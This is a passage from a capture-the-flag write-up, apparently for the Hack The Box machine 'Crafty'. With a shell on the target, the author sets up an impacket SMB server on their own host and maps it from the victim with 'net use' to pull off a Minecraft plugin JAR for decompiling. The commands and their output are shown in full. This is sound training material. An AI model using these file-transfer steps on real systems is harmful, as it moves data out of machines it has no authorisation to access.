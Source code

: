 Checking the Public Folder using tree command. 
```
c:\Users>tree /f public            
tree /f public                     
Folder PATH listing                
Volume serial number is C419-63F6    
C:\USERS\PUBLIC     
����Documents     
����Downloads       
����Music         
����Pictures       
����Videos
```

Upon surfing the `C:\Users\svc_minecraft\server\plugins>` directory, I found that there was a JAR file present, that is `playercounter-1.0-SNAPSHOT.jar`.
#### impacket-smbshare using password

This box wasn't allowing me to simply use `impacket-smbserer` without password Just like I have used it. So this time, i will have to provide the credentials.

```
$ impacket-smbserver a /home/ringbuffer/Downloads/Crafty.htb -smb2support -user lol -pass lol
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On a Windows machine
```
PS C:\Users\svc_minecraft\server\plugins> net use \\10.10.14.4\a /USER:lol lol
net use \\10.10.14.4\a /USER:lol lol
The command completed successfully.
```

Now I can transfer the JAR file onto Kali using the usual copy command. 

Upon receiving the JAR file, I installed the `JD-GUI` to decompile the JAR file and open it with `JD-GUI`.
![](Crafty_HTB_JD_GUI.png)
